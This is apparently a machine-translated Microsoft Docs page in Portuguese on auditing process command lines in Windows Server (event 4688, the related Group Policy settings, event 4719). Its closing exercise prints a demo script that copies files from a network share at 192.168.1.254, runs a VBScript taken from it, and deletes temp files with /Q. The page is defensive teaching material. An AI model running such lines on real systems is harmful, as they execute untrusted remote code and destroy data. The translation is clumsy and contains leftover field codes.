 ```yaml
---
ms.assetid: c8597cc8-bdcb-4e59-a09e-128ef5ebeaf8
title: Auditoria do processo de linha de comando
description: 
author: billmath
ms.author: billmath
manager: femila
ms.date: 05/31/2017
ms.topic: article
ms.prod: windows-server-threshold
ms.technology: identity-adds
ms.openlocfilehash: 61e7a5ca2b9c00c9976e6032bb10adb1974020b0
ms.sourcegitcommit: db290fa07e9d50686667bfba3969e20377548504
ms.translationtype: MT
ms.contentlocale: pt-BR
ms.lasthandoff: 12/12/2017
---
```

# <a name="command-line-process-auditing"></a>Auditoria do processo de linha de comando

>Aplica-se a: Windows Server 2016, Windows Server 2012 R2

**Autor**: sênior Justin Turner engenheiro de escalonamento de suporte com o grupo do Windows  
  
> [!NOTE]  
> Este conteúdo foi criado por um engenheiro de suporte de cliente da Microsoft e se destina a arquitetos de sistemas que estão procurando mais profundamente explicações técnicas de recursos e soluções no Windows Server 2012 R2 de tópicos no TechNet geralmente fornecem e administradores experientes. No entanto, ele não passou os mesmos edição passos, para que a linguagem podem parecer que menos refinado que o que geralmente é encontrado no TechNet.  
  
## <a name="overview"></a>Visão geral  
  
-   O evento de auditoria de criação do processo de preexistente ID 4688 incluirá informações de auditoria para processos de linha de comando.  
  
-   Ele também registra hash SHA1/2 do executável no log de eventos do Applocker  
  
    -   Aplicativos e serviços Logs\Microsoft\Windows\AppLocker  
  
-   Habilitar por meio do GPO, mas ela é desabilitada por padrão  
  
    -   "Incluem a linha de comando em eventos de criação de processo"  
  
![auditoria de linha de comando](media/Command-line-process-auditing/GTR_ADDS_Event4688.gif)  
  
**Figura Figura SEQ \ \ \ * evento 16 árabe 4688**  
  
Examine o evento updated 4688 ID em REF _Ref366427278 \h Figura 16.  Antes de isso atualizar nenhuma das informações para **linha de comando do processo** registrado.  Devido a esse registro em log adicional agora podemos ver que não só o processo de wscript.exe foi iniciado, mas que também era usado para executar um script VB.  
  
## <a name="configuration"></a>Configuração  
Para ver os efeitos dessa atualização, você precisará habilitar as duas configurações de política.  
  
### <a name="you-must-have-audit-process-creation-auditing-enabled-to-see-event-id-4688"></a>Você deve ter habilitado para ver 4688 de ID de evento de auditoria de criação do processo de auditoria.  
Para habilitar a política de auditoria de criação de processo, edite a seguinte política de grupo:  
  
**Local de política:** configuração do computador > Políticas > configurações do Windows > configurações de segurança > Configuração avançada auditoria > monitoração detalhada  
  
**Nome da política:** criação do processo de auditoria  
  
**Suportado em:** Windows 7 e acima  
  
**Descrição/ajuda:**  
  
Esta configuração de política de segurança determina se o sistema operacional gera eventos de auditoria quando um processo é criado (iniciado) e o nome do programa ou do usuário que a criou.  
  
Esses eventos de auditoria pode ajudá-lo a entender como um computador está sendo usado e para acompanhar a atividade do usuário.  
  
Volume de eventos: baixo para médio, dependendo do uso do sistema  
  
**Padrão:** não configurada  
  
### <a name="in-order-to-see-the-additions-to-event-id-4688-you-must-enable-the-new-policy-setting-include-command-line-in-process-creation-events"></a>Para ver as adições ao evento 4688 ID, você deve habilitar a nova configuração de política: incluir a linha de comando em eventos de criação de processo  
**Tabela SEQ Table \ \ \ * Configuração de política de processo de linha de comando de 19 árabe**  
  
|Configuração de política|Detalhes|  
|------------------------|-----------|  
|**Caminho**|Criação do processo administrativo Templates\System\Audit|  
|**Configuração**|**Incluir a linha de comando em eventos de criação de processo**|  
|**Configuração padrão**|Não configurado (não habilitado)|  
|**Suportado em:**|?|  
|**Descrição**|Esta configuração de política determina quais informações são registradas em eventos de auditoria de segurança quando um novo processo foi criado.<br /><br />Essa configuração só se aplica quando a política de auditoria de criação de processo está habilitada. Se você habilitar esta configuração de política, que as informações de linha de comando para cada processo serão registradas em texto sem formatação no log de eventos de segurança como parte do evento de auditoria de criação de processo 4688, "um novo processo foi criado," em estações de trabalho e servidores em que esta configuração de política é aplicada.<br /><br />Se você desabilitar ou não definir esta configuração de política, informações de linha de comando do processo não serão incluídas em eventos de auditoria de criação de processo.<br /><br />Padrão: Não configurada<br /><br />Observação: Quando essa configuração de política for habilitada, criou qualquer usuário com acesso de ler que os eventos de segurança será capazes de ler os argumentos de linha de comando para qualquer um com êxito o processo. Argumentos de linha de comando podem conter informações confidenciais ou particulares, como senhas ou dados do usuário.|  
  
![auditoria de linha de comando](media/Command-line-process-auditing/GTR_ADDS_IncludeCLISetting.gif)  
  
Quando você usa as configurações de configuração de política de auditoria avançada, você precisa confirmar se essas configurações não foram substituídas pelas configurações de política de auditoria básica.  Evento 4719 é registrado quando as configurações são substituídas.  
  
![auditoria de linha de comando](media/Command-line-process-auditing/GTR_ADDS_Event4719.gif)  
  
O procedimento a seguir mostra como evitar conflitos, bloqueando a aplicação de quaisquer configurações de política de auditoria básica.  
  
### <a name="to-ensure-that-advanced-audit-policy-configuration-settings-are-not-overwritten"></a>Para garantir que as definições de configuração avançada de política de auditoria não foram substituídas  
![auditoria de linha de comando](media/Command-line-process-auditing/GTR_ADDS_AdvAuditPolicy.gif)  
  
1.  Abra o console de gerenciamento de política de grupo  
  
2.  Clique com botão direito a política de domínio padrão e clique em Editar.  
  
3.  Clique duas vezes em configuração do computador, clique duas vezes em políticas e, em seguida, clique duas vezes em configurações do Windows.  
  
4.  Clique duas vezes em configurações de segurança, clique duas vezes em políticas locais e, em seguida, clique em Opções de segurança.  
  
5.  Clique duas vezes em auditoria: Forçar política subcategoria configurações de auditoria (Windows Vista ou posterior) para substituir configurações de categorias de política de auditoria e, em seguida, clique em definir esta configuração de política.  
  
6.  Clique em habilitado e, em seguida, clique em Okey.  
  
## <a name="additional-resources"></a>Recursos adicionais  
[Auditoria de criação de processo](https://technet.microsoft.com/library/dd941613(v=WS.10).aspx)  
  
[Avançada de política de auditoria de segurança Step-by-Step guia](https://technet.microsoft.com/library/dd408940(v=WS.10).aspx)  
  
[AppLocker: Perguntas frequentes sobre](https://technet.microsoft.com/library/ee619725(v=ws.10).aspx)  
  
## <a name="try-this-explore-command-line-process-auditing"></a>Tente o seguinte: Explorar a auditoria do processo de linha de comando  
  
1.  Habilitar **criação do processo de auditoria** eventos e certifique-se de que a configuração de política de auditoria avançada não é sobrescrita  
  
2.  Crie um script que irá gerar alguns eventos de interesse e execute o script.  Observe os eventos.  O script usado para gerar o evento na lição tiveram a seguinte aparência:  
  
    ```  
    mkdir c:\systemfiles\temp\commandandcontrol\zone\fifthward  
    copy \\192.168.1.254\c$\hidden c:\systemfiles\temp\hidden\commandandcontrol\zone\fifthward  
    start C:\systemfiles\temp\hidden\commandandcontrol\zone\fifthward\ntuserrights.vbs  
    del c:\systemfiles\temp\*.* /Q  
    ```  
  
3.  Habilitar a auditoria de processo de linha de comando  
  
4.  Execute o script mesmo como antes e observar os eventos  
  


